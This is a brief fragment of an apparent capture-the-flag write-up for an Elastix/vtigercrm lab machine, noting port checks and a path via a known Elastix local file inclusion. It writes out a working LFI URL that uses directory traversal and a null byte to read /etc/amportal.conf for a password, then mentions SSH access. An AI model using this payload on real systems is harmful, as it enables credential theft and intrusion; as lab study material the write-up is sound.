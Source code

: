 
+ 4190/4445/4559/5038

  no exploit found.		



# Path 1-eslatix LFI + ssh

search eslatix, LFI and 18650.

![image-20220927232024252](./images/image-20220927232024252.png)

check LFI, got password.

https://10.129.1.226/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
